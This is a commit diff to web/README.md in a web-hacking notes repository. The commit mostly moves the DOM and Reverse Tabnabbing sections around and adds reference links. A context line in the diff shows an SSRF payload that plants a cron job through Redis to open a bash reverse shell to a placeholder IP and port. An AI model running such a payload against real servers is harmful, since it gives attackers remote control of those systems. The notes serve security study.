

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 3 parts joined by grey strips. Shown: that part at 99% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
mv stuff

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -483,6 +483,15 @@ dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port
 - https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
 - https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning
 
+### DOM - notions
+
+![https://www.w3schools.com/js/js_htmldom.asp](./images/dom.gif)
+
+- `document.getElementById`
+- `document.innerHTML`
+- `Hash (#)`: https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
+- `getElements` https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname
+
 ### Challenges
 
 - https://alert.zeyu2001.com/
@@ -509,25 +518,6 @@ dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port
 ```
 Header Set-Cookie: mettre le scope de l'attribut SameSite = None
 ```
-
-## DOM - notions
-
-![https://www.w3schools.com/js/js_htmldom.asp](./images/dom.gif)
-
-- `document.getElementById`
-- `document.innerHTML`
-
-`Hash (#)`
-
-- https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
-
-`getElements`
-
-- https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname
-
-## Reverse Tabnabbing
-
-- https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing
 
 ## XSS
 
@@ -601,6 +591,11 @@ python -m pyftpdlib -D
 - https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-xss
 - https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-csrf
 
+
+## Reverse Tabnabbing
+
+- https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing
+
 ## Browser Cache
 
 - https://www.offensiveweb.com/docs/client-side/browser-cache/
````
